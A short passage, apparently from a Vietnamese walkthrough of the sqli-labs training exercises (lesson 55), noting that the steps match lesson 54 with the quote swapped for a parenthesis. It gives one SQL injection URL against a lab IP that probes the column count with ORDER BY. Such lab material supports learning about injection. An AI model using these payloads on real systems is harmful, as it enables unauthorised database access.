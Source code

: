 - Tương tự các bước less 54 nhưng thay thế  `'` thành `)`

```
http://10.10.10.171/sqli-labs/Less-55/?id=1) ORDER BY 3 --+
```
